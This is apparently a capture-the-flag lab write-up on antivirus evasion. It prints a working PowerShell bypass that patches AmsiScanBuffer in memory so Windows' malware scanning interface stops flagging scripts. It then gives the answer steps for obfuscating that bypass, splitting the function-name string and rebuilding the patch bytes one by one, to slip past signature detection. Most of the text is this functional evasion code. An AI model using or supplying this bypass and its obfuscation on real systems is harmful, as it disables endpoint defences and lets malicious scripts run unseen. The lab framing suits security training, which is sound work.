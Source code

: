 ```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Once sufficiently obfuscated, submit the snippet to the webserver at `http://MACHINE_IP/challenge-1.html`. The file name must be saved as `challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up

### Answer the questions below

* What flag is found after uploading a properly obfuscated snippet?

    * Change script 1
        
        ```
        $A = "AmsiScanBuffer"

        to

        $A = "AmsiS"+"canBuffer"
        ```

    * Change script 2
    
        ```
        $buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

        to

        $buf = new-object byte[] 6
        $buf[0] = [UInt32]0xB8
        $buf[1] = [UInt32]0x57
        $buf[2] = [UInt32]0x00
        $buf[3] = [Uint32]0x07
        $buf[4] = [Uint32]0x80
        $buf[5] = [Uint32]0xC3
        ```

    ![task4-flag](./images/task4-flag.png)
